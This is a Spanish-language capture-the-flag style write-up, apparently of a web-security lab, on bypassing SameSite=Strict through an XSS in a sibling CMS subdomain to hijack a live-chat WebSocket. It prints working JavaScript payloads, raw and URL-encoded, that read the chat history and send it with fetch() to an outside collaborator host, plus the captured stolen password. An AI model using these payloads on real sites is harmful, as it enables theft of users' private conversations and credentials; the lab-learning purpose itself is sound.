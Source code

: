 Ya sea que esté probando el sitio web de otra persona o intentando proteger el suyo, es fundamental tener en cuenta que una solicitud puede ser del mismo sitio incluso si se emite en diferentes orígenes.

Asegúrese de auditar exhaustivamente toda la superficie de ataque disponible, incluyendo los dominios hermanos. En particular, las vulnerabilidades que permiten obtener una solicitud secundaria arbitraria, como XSS, pueden comprometer completamente las defensas del sitio, exponiendo todos los dominios del sitio a ataques entre sitios.

Además del CSRF clásico, no olvide que si el sitio web de destino admite WebSockets, esta funcionalidad podría ser vulnerable al secuestro de WebSockets entre sitios (CSWSH), que es básicamente un ataque CSRF dirigido a un protocolo de enlace de WebSocket. Para más detalles, consulte nuestro artículo sobre vulnerabilidades de WebSockets.

![20250714013447.png](20250714013447.png)

## LAB

Desplegando el laboratorio y hacendo una revisión del `SameSite` encontraremos que tiene el valor de `Strict`. en el sitio web encontraremos con un chat en vivo

![20250723210037.png](20250723210037.png)

haciendo la revisión, encontraremos que realiza una comunicación por websockets. En una las peticiones encontraremos una `READY` el cual al enviar al repeater 

![20250723210117.png](20250723210117.png)

Haciendo la requets observaremos que este trae toda la conversación del `Live chat` 

![20250723210755.png](20250723210755.png)

Ademas, enumerando los directorios del sitio web encontraremos que el trafico esta permitido por un subdominio: `https://cms-0ac300960458407c807cf348005f007e.web-security-academy.net` 

![20250723210227.png](20250723210227.png)

```c
Access-Control-Allow-Origin: https://cms-0ac300960458407c807cf348005f007e.web-security-academy.net
```

El dominio encontrado es un sitio web con un panel de login

![20250723210320.png](20250723210320.png)

Enumerando el sitio encontraremos que el valor de login es vulnerable a xss

![20250723210424.png](20250723210424.png)

Ahora vamos a construir un script para que con envie la 

```c
<script>
    var ws = new WebSocket('wss://0ac300960458407c807cf348005f007e.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://mi8d1nk38gtif6j9zer7j6g3uu0lodc2.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

¿Cómo funciona este script?

Establecimiento de conexión: El atacante crea un objeto WebSocket apuntando a la misma URL usada por la aplicación para mantener la conversación activa.

Handshake inicial: Una vez abierta la conexión, envía un mensaje "READY" para confirmar la conexión.

Interceptación de mensajes: Cada vez que el servidor envía datos a través del WebSocket, se activa el evento onmessage, que contiene la información en event.data.

Exfiltración: El contenido interceptado se envía mediante fetch() hacia un dominio controlado por el atacante (en este caso, un endpoint generado con OAST), utilizando POST y con mode: 'no-cors' para evitar bloqueos.


![20250723211206.png](20250723211206.png)

Enviamos la petición insertando nuestro código malicioso en el input del login

![20250723211313.png](20250723211313.png)

Vemos que funciona, y la request traen el historial del chat del `Live Chat`

Bypass SameSite

```c
<script>
    var ws = new WebSocket('wss://0ac300960458407c807cf348005f007e.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://mi8d1nk38gtif6j9zer7j6g3uu0lodc2.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Luego debemos construir nuestro payload malicioso el que será enviado a la victima. Para ello  debemos tener encuentra lo siguiente 

```c
<script>
    document.location = "https://cms-0ac300960458407c807cf348005f007e.web-security-academy.net/login?username=PAYLOAD-JAVASCRIPT&password=test";
</script>
```

Nuestro payload en url encode es el siguiente:

```c
username=%3Cscript%3E+++++var+ws+%3D+new+WebSocket%28%27wss%3A%2F%2F0ac300960458407c807cf348005f007e.web-security-academy.net%2Fchat%27%29%3B+++++ws.onopen+%3D+function%28%29+%7B+++++++++ws.send%28%22READY%22%29%3B+++++%7D%3B+++++ws.onmessage+%3D+function%28event%29+%7B+++++++++fetch%28%27https%3A%2F%2Fmi8d1nk38gtif6j9zer7j6g3uu0lodc2.oastify.com%27%2C+%7Bmethod%3A+%27POST%27%2C+mode%3A+%27no-cors%27%2C+body%3A+event.data%7D%29%3B+++++%7D%3B+%3C%2Fscript%3E&password=test
```

Lo que nos quedara finalmente, este es el que se debería de enviar a la victima:

```c
<script>
    document.location = "https://cms-0ac300960458407c807cf348005f007e.web-security-academy.net/login?username=%3Cscript%3E+++++var+ws+%3D+new+WebSocket%28%27wss%3A%2F%2F0ac300960458407c807cf348005f007e.web-security-academy.net%2Fchat%27%29%3B+++++ws.onopen+%3D+function%28%29+%7B+++++++++ws.send%28%22READY%22%29%3B+++++%7D%3B+++++ws.onmessage+%3D+function%28event%29+%7B+++++++++fetch%28%27https%3A%2F%2Fmi8d1nk38gtif6j9zer7j6g3uu0lodc2.oastify.com%27%2C+%7Bmethod%3A+%27POST%27%2C+mode%3A+%27no-cors%27%2C+body%3A+event.data%7D%29%3B+++++%7D%3B+%3C%2Fscript%3E&password=test";
</script>
```

![20250723214133.png](20250723214133.png)

![20250723214219.png](20250723214219.png)

```c
{"user":"Hal Pline","content":"No problem carlos, it&apos;s pjbye3qcdnra932nv913"}
```

